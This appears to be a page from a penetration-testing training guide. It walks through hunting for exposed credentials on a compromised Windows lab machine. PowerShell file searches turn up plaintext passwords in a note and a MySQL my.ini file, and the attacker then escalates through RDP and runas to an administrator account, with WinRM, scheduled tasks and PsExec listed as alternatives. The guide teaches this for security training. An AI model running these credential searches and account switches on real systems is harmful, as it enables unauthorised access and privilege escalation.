


# Hidden In Plain Sight

This example will continue with the compromised `CLIENTWK220` machine. It is assumed the attacker installed a bind shell at port `4444` as user `dave`.

In an [earlier example](manual-enumeration.md#installed-applications), it was determined that KeePass is installed on the machine. XAMPP and MySQL were also found on the machine at that time. Given this example, it makes sense to start by looking for the .kdbx file containing the KeePass data:

```powershell
PS C:\Users\dave> Get-ChildItem -Path "C:\" -Include "*.kdbx" -Recurse -File -ErrorAction SilentlyContinue

PS C:\Users\dave>
```

Unfortunately this yielded no results. Given that it appears the password manager's blob file is sufficiently protected, it is worth searching the XAMPP directory for any sensitive files. By default XAMPP stores its default credentials in a `passwords.txt` file. It also stores configuration information in `.ini` files on the machine. Searching for these file types yields some interesting results:

```powershell
PS C:\Users\dave> Get-ChildItem -Path C:\xampp -Include *.txt,*.ini -File -Recurse -ErrorAction SilentlyContinue
Get-ChildItem -Path C:\xampp -Include *.txt,*.ini -File -Recurse -ErrorAction SilentlyContinue
...
Directory: C:\xampp\mysql\bin

Mode                 LastWriteTime         Length Name                                               
----                 -------------         ------ ----                                               
-a----         6/16/2022   1:42 PM           5786 my.ini
...
Directory: C:\xampp

Mode                 LastWriteTime         Length Name                                              
----                 -------------         ------ ----                                                                 
-a----         3/13/2017   4:04 AM            824 passwords.txt
-a----         6/16/2022  10:22 AM            792 properties.ini     
-a----         5/16/2022  12:21 AM           7498 readme_de.txt 
-a----         5/16/2022  12:21 AM           7368 readme_en.txt     
-a----         6/16/2022   1:17 PM           1200 xampp-control.ini  
```

It seems the passwords.txt file is still left on the machine:


```
### XAMPP Default Passwords ###

1) MySQL (phpMyAdmin):

   User: root
   Password:
   (means no password!)

2) FileZilla FTP:

   [ You have to create a new user on the FileZilla Interface ] 

3) Mercury (not in the USB & lite version): 

   Postmaster: Postmaster (postmaster@localhost)
   Administrator: Admin (admin@localhost)

   User: newuser  
   Password: wampp 

4) WEBDAV: 

   User: xampp-dav-unsecure
   Password: ppmax2011
   Attention: WEBDAV is not active since XAMPP Version 1.7.4.
   For activation please comment out the httpd-dav.conf and
   following modules in the httpd.conf
   
   LoadModule dav_module modules/mod_dav.so
   LoadModule dav_fs_module modules/mod_dav_fs.so  
   
   Please do not forget to refresh the WEBDAV authentification (users and passwords).
```


Unfortunately this only contains the default passwords for XAMPP and attempting to use them indicates the defaults were changed. Perhaps the MySQL `my.ini` file will contain something useful:

```powershell
PS C:\Users\dave> type C:\xampp\mysql\bin\my.ini

type : Access to the path 'C:\xampp\mysql\bin\my.ini' is denied.
At line:1 char:1
+ type C:\xampp\mysql\bin\my.ini
+ ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
    + CategoryInfo          : PermissionDenied: (C:\xampp\mysql\bin\my.ini:String) [Get-Content], UnauthorizedAccessEx 
   ception
    + FullyQualifiedErrorId : GetContentReaderUnauthorizedAccessError,Microsoft.PowerShell.Commands.GetContentCommand
```

It would seem the current user does not have permission to read that file. It seems this path has run in to a dead end. Perhaps there is something useful somewhere else on the machine. Searching the current user's home directory for all commonly used file types (for normal users) yields some results:

```powershell
PS C:\Users\dave> Get-ChildItem -Path "C:\Users\dave\" -Include *.txt,*.pdf,*.xls,*.xlsx,*.doc,*.docx -File -Recurse -ErrorAction SilentlyContinue


    Directory: C:\Users\dave\Desktop


Mode                 LastWriteTime         Length Name                                                                 
----                 -------------         ------ ----                                                                 
-a----         6/16/2022  11:28 AM            339 asdf.txt
```

Examining that file results in another set of credentials:


```
notes from meeting:

- Contractors won't deliver the web app on time
- Login will be done via local user credentials
- I need to install XAMPP and a password manager on my machine 
- When beta app is deployed on my local pc: 
Steve (the guy with long shirt) gives us his password for testing
password is: securityIsNotAnOption++++++
```


How convenient! Now that credentials for another user have been obtained it is worth examining what this user can do. First their [group membership](manual-enumeration.md#group-membership) can be checked:

```powershell
PS C:\Users\dave> net user steve
net user steve
User name                    steve
Full Name                    steve
Comment                      
User's comment               
Country/region code          000 (System Default)
Account active               Yes
Account expires              Never

Password last set            6/16/2022 12:08:00 PM
Password expires             Never
Password changeable          6/16/2022 12:08:00 PM
Password required            Yes
User may change password     Yes

Workstations allowed         All
Logon script                 
User profile                 
Home directory               
Last logon                   2/13/2023 3:53:29 AM

Logon hours allowed          All

Local Group Memberships      *helpdesk             *Remote Desktop Users 
                             *Remote Management Use*Users                
Global Group memberships     *None                 
The command completed successfully.
```

While steve is not an Administrator, he is at least able to access the machine via RDP. From here, the attacker can connect as steve via RDP and open PowerShell:

<figure><figcaption><p>PowerShell session as steve via RDP</p></figcaption></figure>

While the machine is the same, the new user may have different permissions than the original one. Therefore _the process of searching for valuable exposed files must begin again_. The rerunning of the search commands can be skipped in this example but they would be done in the real world.

Recall that there was a MySQL `my.ini` file found in the `C:\xampp\mysql\bin` directory. It turns out that `steve` is allowed to read that file:

```powershell
PS C:\Users\steve> type C:\xampp\mysql\bin\my.ini
# Example MySQL config file for small systems.
#
# This is for a system with little memory (<= 64M) where MySQL is only used
# from time to time and it's important that the mysqld daemon
# doesn't use much resources.
#
# You can copy this file to
# C:/xampp/mysql/bin/my.cnf to set global options,
# mysql-data-dir/my.cnf to set server-specific options (in this
# installation this directory is C:/xampp/mysql/data) or
# ~/.my.cnf to set user-specific options.
#
# In this file, you can use all long options that a program supports.
# If you want to know which options a program supports, run the program
# with the "--help" option.

# The following options will be passed to all MySQL clients
# backupadmin Windows password for backup job
[client]
password       = admin123admin123!
port=3306
socket="C:/xampp/mysql/mysql.sock"


# Here follows entries for some specific programs
...
```

Now the attacker has access to a third user (`backupadmin`). That user has access to the following groups:

```powershell
PS C:\Users\steve> net user backupadmin
User name                    BackupAdmin
Full Name                    BackupAdmin
Comment
User's comment
Country/region code          000 (System Default)
Account active               Yes
Account expires              Never

Password last set            6/21/2022 9:43:48 PM
Password expires             Never
Password changeable          6/21/2022 9:43:48 PM
Password required            Yes
User may change password     Yes

Workstations allowed         All
Logon script
User profile
Home directory
Last logon                   2/13/2023 3:51:06 AM

Logon hours allowed          All

Local Group Memberships      *Administrators       *BackupUsers
                             *Users
Global Group memberships     *None
The command completed successfully.
```

Unfortunately this user is not allowed access via RDP so the attacker must find another way to run commands as that user.

Since the attacker already has access to a GUI (via `steve`'s RDP access), perhaps they could leverage [runas](https://en.wikipedia.org/wiki/Runas) which allows the to run a program as a different user. Runas can be used with local or domain accounts as long as the user has the ability to log on to the system.

In order to open a cmd.exe prompt as the `backupadmin` user the following command can be run from `steve`'s terminal:

```
runas /user:backupadmin cmd
```

After entering the backupadmin user's password a new shell is created:

<figure><figcaption><p>backupadmin cmd shell</p></figcaption></figure>

_If the attacker did not have access_ to a GUI they would have been unable to use runas since the password prompt doesn't accept  input in commonly used shells, such as the example's bind shell or WinRM.

However, one can use a few other methods to access the system as another user when certain requirements are met:

* RDP or WinRM can be used if the user in questions is a member of the corresponding groups
* If the target user has the [Log on as a batch job](https://learn.microsoft.com/en-us/windows/security/threat-protection/security-policy-settings/log-on-as-a-batch-job) access right, the attacker can schedule a task to execute a program of their choice as the target user
  * This access right determines which accounts can sign in by using a batch-queue tool such as the Task Scheduler service
* If the target user has an active session [PsExec](https://learn.microsoft.com/en-us/sysinternals/downloads/psexec) from Sysinternals can be used
